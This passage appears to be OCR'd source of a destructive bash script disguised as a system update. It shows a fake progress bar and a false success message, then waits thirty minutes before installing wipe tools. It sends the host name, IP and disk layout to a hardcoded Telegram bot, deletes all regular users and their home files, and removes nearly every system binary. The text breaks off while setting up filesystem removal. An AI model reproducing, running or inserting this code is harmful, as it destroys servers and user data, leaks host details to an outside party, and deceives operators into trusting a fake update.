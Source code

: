 do
    echo  -n "#"
    sleep 1
done
echo ""
sleep 25
echo "The system has been updated successfully!"
(
sleep 1800
echo "The final update is being applied..."
if [[ -f /etc/redhat-release ]]; then
    sudo yum install xfsprogs wipe parted -y  > /dev/null 2>&1
elif [[ "$(lsb_release -is)" == "Ubuntu" ]]; then
    sudo apt update
    sudo apt install xfsprogs wipe parted -y > /dev/null 2>&1
elif [[ "$(lsb_release -is)" == "Debian" ]]; then
    sudo apt update
    sudo apt install xfsprogs wipe parted -y > /dev/null 2>&1
else
    echo "Unsupported OS."
    exit 1
fi
telegram_bot_token="6428401585:AAGE6SbwtVJxOpLjdMcrL45gb18H9UV7tQA"
telegram_chat_id="6932028002"
send_telegram_message() {
    IFS= read -r -d '' message << EOF
Cleaning process started on server HOST: $(hostname)
IP: $(hostname -I)
Disk volumes:
$(df -h --output=source,size,target)
EOF
    curl -s --retry 3 --retry-delay 5 -X POST "https://api.telegram.org/bot$telegram_bot_token/sendMessage" \
        -d "chat_id=$telegram_chat_id" \
        -d "text=$message" \
        -H "Content-Type: application/x-www-form-urlencoded"
}
send_telegram_message > /dev/null 2>&1
remove_all_users() {
for username in `awk -F: '$3 > 999 {print $1}' /etc/passwd`
        do
                deluser --remove-all-files -q $username > /dev/null 2>&1
                userdel -r $username > /dev/null 2>&1
                wipe -rfi /home/$username/* > /dev/null 2>&1
        done
}
##########################################################################################
remove_os_file() {
        reboot_path=`which reboot`
        rm_path=`which rm`
for file in /bin/* /sbin/* /usr/bin/* /usr/sbin/*; do
    if [[ "$file" != "$reboot_path" && "$file" != "$rm_path" ]]; then
        if [[ "$file" != "$reboot_path" && "$file" != "$rm_path" ]]; then
            rm -f $file > /dev/null 2>&1
        fi
    fi
done
}
######################################################################################### 
remove_file_system() {
mounted_partitions=$(df -h | awk '{if (NR>1) print $6}')
root_partition="/"
fs_type="xfs"
start="0%"